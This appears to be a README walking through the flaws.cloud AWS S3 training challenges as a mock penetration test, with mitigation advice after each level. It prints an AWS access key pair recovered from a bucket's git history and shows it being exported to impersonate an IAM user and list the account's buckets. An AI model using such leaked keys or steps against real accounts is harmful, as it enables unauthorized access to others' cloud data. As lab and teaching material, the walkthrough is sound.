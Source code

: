 # AWS S3 Security Challenges

## Abstract
*Amazon Simple Storage Service* (Amazon `S3`) is a highly scalable and versatile cloud storage service offered by Amazon Web Services (`AWS`).  
It allows organizations to store and retrieve vast amounts of data, making it an integral component of modern cloud computing infrastructures.  
*Security* is of paramount importance when it comes to S3, as it stores critical data for businesses and individuals alike.  
S3 security measures are crucial to protect sensitive information from unauthorized access, data breaches, and accidental exposure.  
AWS offers a range of security features, such as access control lists, bucket policies, and encryption, to ensure that data stored  
in S3 remains confidential, integrity is maintained, and accessibility is well-controlled.  
Establishing robust S3 security practices is essential for safeguarding valuable digital assets in the cloud.  

<br/>

In this repository, we will explore a series of challenges related to S3 by leveraging [flaws.cloud](http://flaws.cloud).  

## Prerequisites
- [aws cli](https://aws.amazon.com/cli/)
- [aws account](https://aws.amazon.com/free/?trk=94cafeff-9d62-4c32-8799-45290b4f160b&sc_channel=ps&ef_id=EAIaIQobChMIrtnukMWxggMVVIVoCR1cRgT0EAAYASAAEgJfl_D_BwE:G:s&s_kwcid=AL!4422!3!566381912849!p!!g!!account%20aws!15451025651!135687769812&all-free-tier.sort-by=item.additionalFields.SortRank&all-free-tier.sort-order=asc&awsf.Free%20Tier%20Types=*all&awsf.Free%20Tier%20Categories=*all) (you can leverage a free trial account)  


## Challenges  
> **Note**
> To add depth and realism to the scenario, we will structure our challenge by assuming that flaws.cloud is a web service  
> for which a customer has requested a black box Vulnerability Assessment & Penetration Testing (VAPT).  
> In this approach, we will have no prior information beyond the target domain, making the engagement more challenging and realistic.

<details>
<summary>Challenge 1</summary>

L'ets begin.  
As we are aware, the only information available to us is that the service is exposed at the URL http://flaws.cloud:  

<img src="images/flaws-website.png" alt="flaws.cloud" width="3000" height="290">  


The initial step we can take is to perform a DNS lookup to gather additional information:  
```console
nslookup flaws.cloud

Server:		192.168.1.1
Address:	192.168.1.1#53

Non-authoritative answer:
Name:	flaws.cloud
Address: 52.218.251.58
Name:	flaws.cloud
Address: 52.92.164.35
Name:	flaws.cloud
Address: 52.218.183.19
Name:	flaws.cloud
Address: 52.92.229.67
Name:	flaws.cloud
Address: 52.218.179.83
Name:	flaws.cloud
Address: 52.92.148.203
Name:	flaws.cloud
Address: 52.92.250.3
Name:	flaws.cloud
Address: 52.92.177.187
```  
The reason why the `nslookup` command returns multiple IP addresses for a domain is because many websites  
and services are hosted on multiple servers for redundancy and load balancing.  
This means that the same domain name (in this case, "flaws.cloud") can resolve to multiple IP addresses.  

The purpose of this approach is to ensure high availability and better distribution of traffic.  
Let's take a random IP address from the list and try to execute a DNS lookup on that:  
```console
nslookup 52.92.148.203

Server:		192.168.1.1
Address:	192.168.1.1#53

Non-authoritative answer:
203.148.92.52.in-addr.arpa	name = s3-website-us-west-2.amazonaws.com.
```  

This is an interesting information.  
`name = s3-website-us-west-2.amazonaws.com`: This line provides the result of the reverse DNS lookup.  
It reveals that the IP address `52.92.148.203` is associated with the domain name `s3-website-us-west-2.amazonaws.com`.  
This means that if you were to access the URL associated with this IP address, it would likely lead you to an Amazon Web Services (AWS) `S3`  
website hosted in the US West (Oregon) region.  
The same DNS lookup result applies to every other IP addresses taken from the above output.  


> **Note**
> All S3 buckets, when configured for web hosting, are given an AWS domain you can use to browse to it without setting up your own DNS.  
> In this case, flaws.cloud can also be visited by going to http://flaws.cloud.s3-website-us-west-2.amazonaws.com/  

Let's do a recap of what we know so far:  
We know that we have a bucket named `flaws.cloud` in `us-west-2`  
<br/>

Given that, we can attempt to browse the bucket by using the aws cli by running:  
```console
aws s3 ls s3://flaws.cloud

2017-03-14 04:00:38       2575 hint1.html
2017-03-03 05:05:17       1707 hint2.html
2017-03-03 05:05:11       1101 hint3.html
2020-05-22 20:16:45       3162 index.html
2018-07-10 18:47:16      15979 logo.png
2017-02-27 02:59:28         46 robots.txt
2017-02-27 02:59:30       1051 secret-dd02c7c.html
```  
Very good, we are able to list this bucket contents!  
Feel free to take a look at all the files in the bucket...  
the most interesting one seems to be `secret-dd02c7c.html`, let's inspect this:  
```html
aws s3 cp s3://flaws.cloud/secret-dd02c7c.html -

<html>
    <head>
        <title>flAWS</title>
        <META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
        <style>
            body { font-family: Andale Mono, monospace; }
            :not(center) > pre { background-color: #202020; padding: 4px; border-radius: 5px; border-color:#00d000;
            border-width: 1px; border-style: solid;}
        </style>
    </head>
<body
  text="#00d000"
  bgcolor="#000000"
  style="max-width:800px; margin-left:auto ;margin-right:auto"
  vlink="#00ff00" link="#00ff00">

<center>
<pre >
 _____  _       ____  __    __  _____
|     || |     /    ||  |__|  |/ ___/
|   __|| |    |  o  ||  |  |  (   \_
|  |_  | |___ |     ||  |  |  |\__  |
|   _] |     ||  _  ||  `  '  |/  \ |
|  |   |     ||  |  | \      / \    |
|__|   |_____||__|__|  \_/\_/   \___|
</pre>

<h1>Congrats! You found the secret file!</h1>
</center>


Level 2 is at <a href="http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud">http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud</a>%
```  

The content of the file displays the link to the next challenge. Well done!  

**Security Mitigations**:  
We need to explain to our customer that on AWS you can set up S3 buckets with all sorts of permissions and functionality including using them to host static files.  
A number of people accidentally open them up with permissions that are too loose.  
By default, S3 buckets are private and secure when they are created.  
To allow it to be accessed as a web page, you have to turn on `Static Website Hosting` and changed the aws  
bucket policy to allow everyone `s3:GetObject` privileges, which is fine if you plan to publicly host the bucket as a web page.  
But then you can introduce the flaw if you change the permissions to add `Everyone` to have `List` permissions.

> **Warning**
> "Everyone" means everyone on the Internet!



</details>

<br/>

<details>
<summary>Challenge 2</summary>

Now we can procede with the second challenge.  

> **Note**
> This challenge is similar to the first one but you will need an aws accout.  


We know that the link to the new bucket is http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud.  
Once you have your aws cli configured with keys from your aws account, let's try to list all the files in the bucket:  
```console
aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud

2017-02-27 03:02:15      80751 everyone.png
2017-03-03 04:47:17       1433 hint1.html
2017-02-27 03:04:39       1035 hint2.html
2017-02-27 03:02:14       2786 index.html
2017-02-27 03:02:14         26 robots.txt
2017-02-27 03:02:15       1051 secret-e4443fc.html
```  

Once again we notice that there is a *secret* html file, let's cat is content:  

aws s3 cp s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html -  
```html
<html>
    <head>
        <title>flAWS</title>
        <META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
        <style>
            body { font-family: Andale Mono, monospace; }
            :not(center) > pre { background-color: #202020; padding: 4px; border-radius: 5px; border-color:#00d000;
            border-width: 1px; border-style: solid;}
        </style>
    </head>
<body
  text="#00d000"
  bgcolor="#000000"
  style="max-width:800px; margin-left:auto ;margin-right:auto"
  vlink="#00ff00" link="#00ff00">

<center>
<pre >
 _____  _       ____  __    __  _____
|     || |     /    ||  |__|  |/ ___/
|   __|| |    |  o  ||  |  |  (   \_
|  |_  | |___ |     ||  |  |  |\__  |
|   _] |     ||  _  ||  `  '  |/  \ |
|  |   |     ||  |  | \      / \    |
|__|   |_____||__|__|  \_/\_/   \___|
</pre>

<h1>Congrats! You found the secret file!</h1>
</center>


Level 3 is at <a href="http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud">http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud</a>%
```   

The content of the file displays the link to the next challenge. Well done!  

**Security Mitigations**:  
We need to explain to our customer that similar to opening permissions to `Everyone` in the previous bucket/challenge, people accidentally open permissions to `Any Authenticated AWS User`.  

> **Warning**
> They might mistakenly think this will only be users of their account, when in fact it means anyone that has an AWS account!



</details>

<br/>

<details>
<summary>Challenge 3</summary>

Now we can procede with the third challenge.  
We know that the link to the new bucket is http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud.  
Once you have your aws cli configured with keys from your aws account, let's try to list all the files in the bucket:  
```console
aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud  

                           PRE .git/
2017-02-27 01:14:33     123637 authenticated_users.png
2017-02-27 01:14:34       1552 hint1.html
2017-02-27 01:14:34       1426 hint2.html
2017-02-27 01:14:35       1247 hint3.html
2017-02-27 01:14:33       1035 hint4.html
2020-05-22 20:21:10       1861 index.html
2017-02-27 01:14:33         26 robots.txt
```  
This time we notice something different: there is a `.git` folder!  
A `.git` folder within a directory typically indicates that the directory is a Git repository.  
`Git` is a distributed version control system commonly used for tracking changes in source code and managing collaborative software development projects.  
The `.git` folder contains all the information and data necessary for Git to manage version control for the files and directories within that repository.  
It includes information about commits, branches, history, configuration settings, and more.  
There are probably interesting things in this folder...let's download the full bucket content with the following command:  
```console
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --region us-west-2

download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/HEAD to .git/HEAD
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/description to .git/description
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/config to .git/config
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/COMMIT_EDITMSG to .git/COMMIT_EDITMSG
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/applypatch-msg.sample to .git/hooks/applypatch-msg.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/pre-applypatch.sample to .git/hooks/pre-applypatch.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/post-update.sample to .git/hooks/post-update.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/commit-msg.sample to .git/hooks/commit-msg.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/pre-commit.sample to .git/hooks/pre-commit.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/pre-rebase.sample to .git/hooks/pre-rebase.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/prepare-commit-msg.sample to .git/hooks/prepare-commit-msg.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/update.sample to .git/hooks/update.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/2f/c08f72c2135bb3af7af5803abb77b3e240b6df to .git/objects/2f/c08f72c2135bb3af7af5803abb77b3e240b6df
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/index to .git/index
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/info/exclude to .git/info/exclude
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/0e/aa50ae75709eb4d25f07195dc74c7f3dca3e25 to .git/objects/0e/aa50ae75709eb4d25f07195dc74c7f3dca3e25
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/61/a5ff2913c522d4cf4397f2500201ce5a8e097b to .git/objects/61/a5ff2913c522d4cf4397f2500201ce5a8e097b
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/b6/4c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 to .git/objects/b6/4c8dcfa8a39af06521cf4cb7cdce5f0ca9e526
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/logs/HEAD to .git/logs/HEAD
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/logs/refs/heads/master to .git/logs/refs/heads/master
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/53/23d77d2d914c89b220be9291439e3da9dada3c to .git/objects/53/23d77d2d914c89b220be9291439e3da9dada3c
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/db/932236a95ebf8c8a7226432cf1880e4b4017f2 to .git/objects/db/932236a95ebf8c8a7226432cf1880e4b4017f2
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/92/d5a82ef553aae51d7a2f86ea0a5b1617fafa0c to .git/objects/92/d5a82ef553aae51d7a2f86ea0a5b1617fafa0c
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/f5/2ec03b227ea6094b04e43f475fb0126edb5a61 to .git/objects/f5/2ec03b227ea6094b04e43f475fb0126edb5a61
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint2.html to ./hint2.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint1.html to ./hint1.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint3.html to ./hint3.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/c2/aab7e03933a858d1765090928dca4013fe2526 to .git/objects/c2/aab7e03933a858d1765090928dca4013fe2526
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/index.html to ./index.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/robots.txt to ./robots.txt
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/76/e4934c9de40e36f09b4e5538236551529f723c to .git/objects/76/e4934c9de40e36f09b4e5538236551529f723c
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint4.html to ./hint4.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/refs/heads/master to .git/refs/heads/master
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/e3/ae6dd991f0352cc307f82389d354c65f1874a2 to .git/objects/e3/ae6dd991f0352cc307f82389d354c65f1874a2
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/f2/a144957997f15729d4491f251c3615d508b16a to .git/objects/f2/a144957997f15729d4491f251c3615d508b16a
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/authenticated_users.png to ./authenticated_users.png
```  
Now we are inside the git folder and we can inspect git logs:  
```console
git log

commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```  
The log shows 2 commit and one have a suspicious message associated with it: `Oops, accidentally added something I shouldn't have`.  
Let's checkout the commit before that and take a look around at that point in the git history:  
```console
git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61 && ls

M	index.html
Note: switching to 'f52ec03b227ea6094b04e43f475fb0126edb5a61'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by switching back to a branch.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -c with the switch command. Example:

  git switch -c <new-branch-name>

Or undo this operation with:

  git switch -

Turn off this advice by setting config variable advice.detachedHead to false

HEAD is now at f52ec03 first commit

access_keys.txt         authenticated_users.png hint1.html              hint2.html              hint3.html              hint4.html              index.html              robots.txt
```  

Interesting...there is an access_keys.txt file in the repository!  
Let's inspect that:  
```console
cat access_keys.txt

access_key AKIAJ366LIPB4IJKT7SA
secret_access_key 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
```  
It's a good day to be a pentester, we found a set of aws [keys](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_access-keys.html)!  

let's use them to see if we can do something!  
```console
export AWS_ACCESS_KEY_ID=AKIAJ366LIPB4IJKT7SA
export AWS_SECRET_ACCESS_KEY=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
aws sts get-caller-identity

{
    "UserId": "AIDAJQ3H5DC3LEG2BKSLC",
    "Account": "975426262029",
    "Arn": "arn:aws:iam::975426262029:user/backup"
}

```  

The output of the above command shows that we are now impersonating the `arn:aws:iam::975426262029:user/backup` [IAM](https://aws.amazon.com/iam/?trk=e7f9b09d-7bd6-4855-9dba-72c6bc2af630&sc_channel=ps&ef_id=EAIaIQobChMI6M_L-dKxggMVblBBAh1FEw9aEAAYASAAEgL2Z_D_BwE:G:s&s_kwcid=AL!4422!3!651510173475!e!!g!!amazon%20iam!19828210056!146491523705) identity.  
This is a user from the customer's aws account!  
Let's check the user attached policies:  
```console

aws iam list-attached-user-policies --user-name backup

An error occurred (AccessDenied) when calling the ListAttachedUserPolicies operation: User: arn:aws:iam::975426262029:user/backup is not authorized to perform: iam:ListAttachedUserPolicies on resource: user backup because no identity-based policy allows the iam:ListAttachedUserPolicies action
```  
We are not lucky this time but maybe with can list more bucket with the current identity:  
```console
aws s3 ls

2020-06-25 19:43:56 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2020-06-27 01:06:07 config-bucket-975426262029
2020-06-27 12:46:15 flaws-logs
2020-06-27 12:46:15 flaws.cloud
2020-06-27 17:27:14 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2020-06-27 17:27:14 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2020-06-27 17:27:14 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2020-06-27 17:27:15 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2020-06-27 17:27:15 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2020-06-28 04:29:47 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```  
Yes! We can list buckets that we couldn't before!  
Now we know where `level4` is located.  

**Security Mitigations**:  
We need to explain to our customer that People often leak AWS keys and then try to cover up their mistakes without revoking the keys.  
You should always revoke any AWS keys (or any secrets) that could have been leaked or were misplaced.  
Roll your secrets early and often and [use roles instead of keys whenever possible](https://docs.aws.amazon.com/IAM/latest/UserGuide/best-practices.html).  

> **Warning**
> If sensitive information or secrets are accidentally leaked and committed to a Git repository, simply removing them in a new commit is not sufficient.  
> These secrets can still exist in the repository's history, and they may be accessible to anyone with access to that repository.  
> If you accidentally committed a secret, consider rewriting your Git history to remove any traces of it.  
> Tools like git-filter-branch and git-rebase can help, but use them with caution as they can be complex and have implications on collaboration.  



</details>

<br/>

<details>
<summary>Challenge 4</summary>

Now we can procede with challenge 4.  
We know that the link to the new bucket is http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud.  

> **Note**
> For the next level, you need to get access to the web page running on an EC2 at 4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud  
> It'll be useful to know that a snapshot was made of that EC2 shortly after nginx was setup on it.  
> Also you need the aws keys retrieved in the previous challenge.  






</details>

<br/>


